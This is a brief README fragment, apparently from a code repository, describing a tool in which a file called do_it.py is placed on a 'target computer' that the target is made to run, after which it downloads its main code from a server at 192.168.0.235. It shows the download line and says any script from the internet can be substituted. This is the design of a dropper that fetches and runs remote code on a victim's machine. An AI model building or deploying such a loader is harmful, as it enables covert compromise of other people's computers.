 * File do_it.py (it's start of all, this file must been in target computer, and target must execute it)
* Main work in dir_chek.py(instead it you can use other files from internet, to do it you should to write current url in so_it.py):</br>
<code>download("http://192.168.0.235/python.dir/dir_check.py")</code>
